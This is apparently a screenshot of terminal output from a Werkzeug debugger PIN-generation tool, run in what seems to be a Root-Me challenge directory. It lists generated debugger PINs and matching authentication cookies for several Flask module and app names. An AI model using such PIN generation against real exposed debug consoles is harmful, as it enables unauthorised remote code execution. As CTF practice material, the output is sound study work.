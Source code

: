 ```
[*] Appname: Flask

[+] Success!
[*] PIN: 111-600-901
[*] Cookie: __wzd1e28508e01e7cc6bda9e=1729150319|a5e8cfd2a0c7
[*] Modname: werkzeug.debug
[*] Appname: wsgi_app

[+] Success!
[*] PIN: 572-381-524
[*] Cookie: __wzd154c11ebc8c181c13d98=1729150319|c6ea2c131b2c
[*] Modname: werkzeug.debug
[*] Appname: DebuggedApplication

[+] Success!
[*] PIN: 842-001-700
[*] Cookie: __wzdf34554bd0c2d71fb755e=1729150319|107a4a6e663a
[*] Modname: werkzeug.debug
[*] Appname: Flask

[+] Success!
[*] PIN: 842-001-700
[*] Cookie: __wzdf34554bd0c2d71fb755e=1729150319|107a4a6e663a
[*] Modname: werkzeug.debug
[*] Appname: Flask

[+] Success!
[*] PIN: 204-041-067
[*] Cookie: __wzdf44644a375dc3af0ac50=1729150319|2de21132d145
[*] Modname: flask.app
[*] Appname: wsgi_app

[+] Success!
[*] PIN: 268-308-375
[*] Cookie: __wzda1d2b8ca47b14dbc0483=1729150319|072670b649b7
[*] Modname: flask.app
[*] Appname: DebuggedApplication

[+] Success!
[*] PIN: 143-326-594
[*] Cookie: __wzd5097cc3d00d7045ae30e=1729150319|689a7a03b3d9
[*] Modname: flask.app
[*] Appname: Flask

[+] Success!
[*] PIN: 143-326-594
[*] Cookie: __wzd5097cc3d00d7045ae30e=1729150319|689a7a03b3d9
[*] Modname: flask.app
[*] Appname: Flask

[+] 12 payloads are successfully generated!
l3mnt2010@ASUSEXPERTBOOK:~/rootme$
```
